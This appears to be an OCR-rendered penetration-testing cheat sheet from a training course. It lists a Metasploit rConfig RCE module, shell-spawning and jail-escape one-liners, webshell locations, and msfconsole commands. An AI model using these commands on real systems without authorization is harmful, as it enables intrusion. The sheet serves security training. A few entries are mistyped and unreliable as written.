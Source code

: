|`use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`|Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting `rConfig 3.9.6`|
|`python -c 'import pty; pty.spawn("/bin/sh")'`|Python command used to spawn an `interactive shell` on a linux-based system|
|`/bin/sh -i`|Spawns an interactive shell on a linux-based system|
|`perl —e 'exec "/bin/sh";'`|Uses `perl` to spawn an interactive shell on a linux-based system|
|`ruby: exec "/bin/sh"`|Uses `ruby` to spawn an interactive shell on a linux-based system|
|`Lua: os.execute('/bin/sh')`|Uses `Lua` to spawn an interactive shell on a linux-based system|
|`awk 'BEGIN {system("/bin/sh")}'`|Uses `awk` command to spawn an interactive shell on a linux-based system|
|`find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`|Uses `find` command to spawn an interactive shell on a linux-based system|
|`find . -exec /bin/sh \; -quit`|An alternative way to use the `find` command to spawn an interactive shell on a linux-based system|
|`vim -c ':!/bin/sh'`|Uses the text-editor `VIM` to spawn an interactive shell. Can be used to escape "jail-shells"|
|`ls -la <path/to/fileorbinary>`|Used to `list` files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute|
|`sudo -l`|Displays the commands that the currently logged on user can run as `sudo`|
|`/usr/share/webshells/laudanum`|Location of `laudanum webshells` on ParrotOS and Pwnbox|
|`/usr/share/nishang/Antak-WebShell`|Location of `Antak-Webshell` on Parrot OS and Pwnbox|

[Download Cheatsheet](https://academy.hackthebox.com/module/cheatsheet/115)

## Metasploit

### MSFconsole Commands

|**Command**|**Description**|
|:--|:--|
|`show exploits`|Show all exploits within the Framework.|
|`show payloads`|Show all payloads within the Framework.|
|`show auxiliary`|Show all auxiliary modules within the Framework.|
|`search <name>`|Search for exploits or modules within the Framework.|
|`info`|Load information about a specific exploit or module.|
|`use <name>`|Load an exploit or module (example: use windows/smb/psexec).|
|`use <number>`|Load an exploit by using the index number displayed after the search command.|
|`LHOST`|Your local host’s IP address reachable by the target, often the public IP address when not on a local network. Typically used for reverse shells.|
|`RHOST`|The remote host or the target. set function Set a specific value (for example, LHOST or RHOST).|
|`setg <function>`|Set a specific value globally (for example, LHOST or RHOST).|
|`show options`|Show the options available for a module or exploit.|
|`show targets`|Show the platforms supported by the exploit.|
|`set target <number>`|Specify a specific target index if you know the OS and service pack.|
|`set payload <payload>`|Specify the payload to use.|
|`set payload <number>`|Specify the payload index number to use after the show payloads command.|
|`show advanced`|Show advanced options.|
|`set autorunscript migrate -f`|Automatically migrate to a separate process upon exploit completion.|
|`check`|Determine whether a target is vulnerable to an attack.|